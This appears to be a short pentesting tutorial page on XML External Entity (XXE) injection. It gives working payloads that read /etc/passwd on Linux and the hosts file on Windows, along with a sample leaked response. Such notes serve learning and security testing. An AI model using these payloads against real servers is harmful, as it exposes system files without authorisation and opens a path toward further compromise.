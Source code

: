```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XXE Injection

XML External Entities disclose or retrieve arbitrary files from the target server's local system by modifying the submitted XML document. This can usually be the first step to gaining Remote Code Execution (RCE).

We can find a typical example of this vulnerability as follows:

* A site accepts XML input and parses it without properly securing or validating it

{% code title="Request format" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ELEMENT data ANY >         <!--Allows any input without validation-->
    <!ELEMENT name (#PCDATA)>
]>
<data>
    <name>example</name>
</data>
```
{% endcode %}

***

* We can send an XML petition to request a system file using the _Entity_ parameter

{% code title="XEE payload" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>    <!-- Defining the External Entity-->
<data>
    <name>&xxe;</name>        <!--Calling the External Entity -->
</data>
```
{% endcode %}

***

* With this, the contents of the requested file would be exposed

{% code title="Example response" overflow="wrap" lineNumbers="true" %}
```xml
<data>
    <name>root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    </name>
</data>
```
{% endcode %}

***

* It also can be done against _Windows_ hosts

{% code title="XEE windows" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE data [<!ENTITY xxe SYSTEM "file:///C:/windows/system32/drivers/etc/hosts">]>
<data>
    <name>&xxe;</name>
</data>
```
{% endcode %}
